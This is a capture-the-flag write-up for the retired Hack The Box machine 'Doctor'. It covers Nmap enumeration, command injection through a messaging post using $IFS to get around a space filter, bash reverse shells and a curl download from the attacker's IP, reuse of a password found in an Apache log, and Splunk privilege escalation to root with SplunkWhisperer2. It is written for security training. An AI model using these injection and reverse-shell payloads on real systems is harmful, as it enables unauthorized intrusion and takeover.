

# Doctor

This is the write-up for the box Doctor that got retired at the 6th February 2021.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.209    doctor.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/doctor.nmap 10.10.10.209
```

```
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http Splunkd httpd
|_http-title: splunkd
| http-robots.txt: 1 disallowed entry
|_/
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Not valid before: 2020-09-06T15:57:27
|_Not valid after:  2023-09-06T15:57:27
|_http-server-header: Splunkd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The webpage on port 80 is a static website that provides health services.
It shows one hostname _doctors.htb_ that should be put into our _/etc/hosts_ file.

On this hostname, it forwards to a different webpage with the title _Doctor Secure Messaging_ where it is possible to register a user:



After registering a user, we can login and are able to create a _New Message_.
One thing to always test is to try a callback by posting a link:
```
Title: Click this link
Content: http://10.10.14.10/
```
```
nc -lvnp 80

Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:40950.
GET / HTTP/1.1
Host: 10.10.14.10
User-Agent: curl/7.68.0
```

It seems to run `curl` on every post, so it can be tested, if other commands can be run:
```
Content: http://10.10.14.10/$(whoami)
```
```
GET /web HTTP/1.1
Host: 10.10.14.10
```

It runs `whoami` because now it contains _web_ in the request.
This proofs command execution and we can send a reverse shell command to the server, to gain a shell connection.

It cannot handle spaces, but the _IFS variable_ helps to bypass that restriction:
```
title=test&content=http://10.10.14.10/$(echo$IFS'test')&submit=Post
```
```
GET /test HTTP/1.1
```

Creating a reverse shell script:
```
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

Sending request with a `curl` command to upload a reverse shell script to _/var/www/html_:
```
title=test&content=http://10.10.14.10/$(curl$IFS'-o'$IFS'/var/www/html/shell'$IFS'http://10.10.14.10/shell')&submit=Post&submit=Post
```

Sending a request to execute the _shell_ script:
```
title=test&content=http://10.10.14.10/$(bash$IFS'/var/www/html/shell')&submit=Post&submit=Post
```

After sending the request, the listener on my IP and port 9001 starts a reverse shell connection as the user _web_.

## Privilege Escalation

The user _web_ is in the group _adm_ and thus has the permissions to read logs.
The log file _/var/log/apache2/backup_ is not a default file and in there are requests to the website.

When filtering for the directories, in there is one with a potential password:
```
cat backup | awk '{print $7}' | sort | uniq -c | sort -n
```
```
/reset_password?email=Guitar123"
```

There is another user on the box called _shaun_ so lets try to switch users:
```
su shaun
```

The password from the log file works for this user.

### Privilege Escalation to root

The service on port 8089 was not yet checked, so to escalate privileges to root, it may be useful to look into it.
It runs **Splunk Atom Feed** and the credentials of _shaun_ are valid to authenticate into the _services_.

When researching for vulnerabilities, there is a LPE and RCE tool called [SplunkWhisperer2](https://github.com/cnotin/SplunkWhisperer2) that can be used to escalate privileges:
```
python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --port 8089 --lhost 10.10.14.10 --lport 9001 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'"
```

After executing the command, the listener on my IP and port 9002 starts a reverse shell as root!
